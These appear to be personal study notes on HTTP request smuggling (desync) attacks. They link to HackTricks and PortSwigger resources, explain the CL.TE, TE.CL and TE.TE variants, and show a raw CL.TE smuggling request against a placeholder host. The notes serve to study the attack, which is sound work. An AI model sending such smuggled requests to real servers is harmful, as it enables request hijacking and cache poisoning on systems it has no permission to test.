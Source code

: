 ## HTTP Request Smuggling / Desync Attacks: HTTP/1 &  HTTP/2
##### May 2022

- links to HTTP rep Smuggling and Desyncs info

[https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/http-request-smuggling/README.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/http-request-smuggling/README.md)

[https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)

[https://portswigger.net/web-security/request-smuggling/advanced](https://portswigger.net/web-security/request-smuggling/advanced)

---
*This is a collection of notes and walktthroughs I have made over the past couple of years on this attack.*

In this doc:
- CL.TE
- TE.CL
- TE.TE
- Most attack simulations
- H/2 labs
- & more 
---

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server 
     uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end 
     server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding`  
     header, but one of the servers can be induced not to process it by obfuscating the header in some way.

---

##### CL.TE
Here, the **front-end** server uses the **`Content-Length`** header and the **back-end** server uses the **`Transfer-Encoding`** header. We can perform a simple HTTP request smuggling attack as follows:

```
POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 30  <- Used by the front end in CL.TE 
Connection: keep-alive  
Transfer-Encoding: chunked  

0
```
>  
```
GET /404 HTTP/1.1  
Foo: x
```
